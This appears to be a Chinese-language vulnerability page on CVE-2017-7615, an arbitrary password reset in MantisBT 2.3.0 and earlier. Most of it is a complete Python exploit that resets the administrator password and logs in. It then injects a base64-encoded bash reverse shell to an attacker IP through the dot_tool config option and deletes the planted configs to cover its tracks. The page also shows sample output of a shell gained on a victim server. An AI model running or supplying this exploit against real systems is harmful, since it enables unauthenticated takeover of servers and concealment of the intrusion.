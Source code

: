 （CVE-2017-7615）MantisBT 任意密码重置漏洞
==========================================

一、漏洞简介
------------

攻击者可通过向verify.php文件传递空的`confirm_hash`值利用该漏洞重置任意密码，获取管理员访问权限。

二、漏洞影响
------------

MantisBT2.3.0及之前的版本

三、复现过程
------------

### poc

> CVE-2017-7615.py

    # Exploit Title: Mantis Bug Tracker 2.3.0 - Remote Code Execution (Unauthenticated)
    # Date: 2020-09-17
    # Vulnerability Discovery: hyp3rlinx, permanull
    # Exploit Author: Nikolas Geiselman
    # Vendor Homepage: https://mantisbt.org/
    # Software Link: https://mantisbt.org/download.php
    # Version: 1.3.0/2.3.0
    # Tested on: Ubuntu 16.04/19.10/20.04
    # CVE : CVE-2017-7615, CVE-2019-15715
    # References:
    # https://mantisbt.org/bugs/view.php?id=26091
    # https://www.exploit-db.com/exploits/41890

    '''

    This exploit chains together two CVE's to achieve unauthenticated remote code execution.
    The first portion of this exploit resets the Administrator password (CVE-2017-7615) discovered by John Page a.k.a hyp3rlinx, this portion was modified from the original https://www.exploit-db.com/exploits/41890.
    The second portion of this exploit takes advantage of a command injection vulnerability (CVE-2019-15715) discovered by 'permanull' (see references).

    Usage:
    Set netcat listener on port 4444
    Send exploit with "python exploit.py"

    Example output:

    kali@kali:~/Desktop$ python exploit.py
    Successfully hijacked account!
    Successfully logged in!
    Triggering reverse shell
    Cleaning up
    Deleting the dot_tool config.
    Deleting the relationship_graph_enable config.
    Successfully cleaned up


    kali@kali:~/Desktop$ nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [192.168.116.135] from (UNKNOWN) [192.168.116.151] 43978
    bash: cannot set terminal process group (835): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ubuntu:/var/www/html/mantisbt-2.3.0$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

    '''

    import requests
    from urllib import quote_plus
    from base64 import b64encode
    from re import split


    class exploit():
        def __init__(self):
            self.s = requests.Session()
            self.headers = dict()  # Initialize the headers dictionary
            self.RHOST = "192.168.116.151"  # Victim IP
            self.RPORT = "80"  # Victim port
            self.LHOST = "192.168.116.135"  # Attacker IP
            self.LPORT = "4444"  # Attacker Port
            self.verify_user_id = "1"  # User id for the target account
            self.realname = "administrator"  # Username to hijack
            self.passwd = "password"  # New password after account hijack
            self.mantisLoc = "/mantisbt-2.3.0"  # Location of mantis in URL
            self.ReverseShell = "echo " + b64encode(
                "bash -i >& /dev/tcp/" + self.LHOST + "/" + self.LPORT + " 0>&1") + " | base64 -d | /bin/bash"  # Reverse shell payload

        def reset_login(self):
            # Request # 1: Grab the account update token
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/verify.php?id=' + self.verify_user_id + '&confirm_hash='
            r = self.s.get(url=url, headers=self.headers)
            if r.status_code == 404:
                print "ERROR: Unable to access password reset page"
                exit()

            account_update_token = r.text.split('name="account_update_token" value=')[1].split('"')[1]

            # Request # 2: Reset the account password
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/account_update.php'
            data = "account_update_token=" + account_update_token + "&password=" + self.passwd + "&verify_user_id=" + self.verify_user_id + "&realname=" + self.realname + "&password_confirm=" + self.passwd
            self.headers.update({'Content-Type': 'application/x-www-form-urlencoded'})
            r = self.s.post(url=url, headers=self.headers, data=data)

            if r.status_code == 200:
                print "Successfully hijacked account!"

        def login(self):
            data = "return=index.php&username=" + self.realname + "&password=" + self.passwd + "&secure_session=on"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/login.php'

            r = self.s.post(url=url, headers=self.headers, data=data)
            if "login_page.php" not in r.url:
                print "Successfully logged in!"

        def CreateConfigOption(self, option, value):
            # Get adm_config_set_token
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/adm_config_report.php'
            r = self.s.get(url=url, headers=self.headers)

            adm_config_set_token = r.text.split('name="adm_config_set_token" value=')[1].split('"')[1]

            # Create config
            data = "adm_config_set_token=" + adm_config_set_token + "&user_id=0&original_user_id=0&project_id=0&original_project_id=0&config_option=" + option + "&original_config_option=&type=0&value=" + quote_plus(
                value) + "&action=create&config_set=Create+Configuration+Option"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/adm_config_set.php'
            r = self.s.post(url=url, headers=self.headers, data=data)

        def TriggerExploit(self):
            print "Triggering reverse shell"

            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/workflow_graph_img.php'
            try:
                r = self.s.get(url=url, headers=self.headers, timeout=3)
            except:
                pass

        def Cleanup(self):
            # Delete the config settings that were created to send the reverse shell
            print "Cleaning up"

            cleaned_up = False

            cleanup = requests.Session()

            CleanupHeaders = dict()
            CleanupHeaders.update({'Content-Type': 'application/x-www-form-urlencoded'})

            data = "return=index.php&username=" + self.realname + "&password=" + self.passwd + "&secure_session=on"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/login.php'
            r = cleanup.post(url=url, headers=CleanupHeaders, data=data)

            ConfigsToCleanup = ['dot_tool', 'relationship_graph_enable']

            for config in ConfigsToCleanup:
                # Get adm_config_delete_token
                url = "http://" + self.RHOST + ":" + self.RPORT + self.mantisLoc + "/adm_config_report.php"
                r = cleanup.get(url=url, headers=self.headers)
                test = split('<!-- Repeated Info Rows -->', r.text)

                # First element of the response list is garbage, delete it
                del test[0]

                cleanup_dict = dict()
                for i in range(len(test)):
                    if config in test[i]:
                        cleanup_dict.update({'config_option': config})
                        cleanup_dict.update({'adm_config_delete_token':
                                                 test[i].split('name="adm_config_delete_token" value=')[1].split('"')[1]})
                        cleanup_dict.update({'user_id': test[i].split('name="user_id" value=')[1].split('"')[1]})
                        cleanup_dict.update({'project_id': test[i].split('name="project_id" value=')[1].split('"')[1]})

                # Delete the config
                print "Deleting the " + config + " config."

                url = "http://" + self.RHOST + ":" + self.RPORT + self.mantisLoc + "/adm_config_delete.php"
                data = "adm_config_delete_token=" + cleanup_dict['adm_config_delete_token'] + "&user_id=" + cleanup_dict[
                    'user_id'] + "&project_id=" + cleanup_dict['project_id'] + "&config_option=" + cleanup_dict[
                           'config_option'] + "&_confirmed=1"
                r = cleanup.post(url=url, headers=CleanupHeaders, data=data)

                # Confirm if actually cleaned up
                r = cleanup.get(url="http://" + self.RHOST + ":" + self.RPORT + self.mantisLoc + "/adm_config_report.php",
                                headers=CleanupHeaders, verify=False)
                if config in r.text:
                    cleaned_up = False
                else:
                    cleaned_up = True

            if cleaned_up == True:
                print "Successfully cleaned up"
            else:
                print "Unable to clean up configs"


    exploit = exploit()
    exploit.reset_login()
    exploit.login()
    exploit.CreateConfigOption(option="relationship_graph_enable", value="1")
    exploit.CreateConfigOption(option="dot_tool", value=exploit.ReverseShell + ';')
    exploit.TriggerExploit()
    exploit.Cleanup()
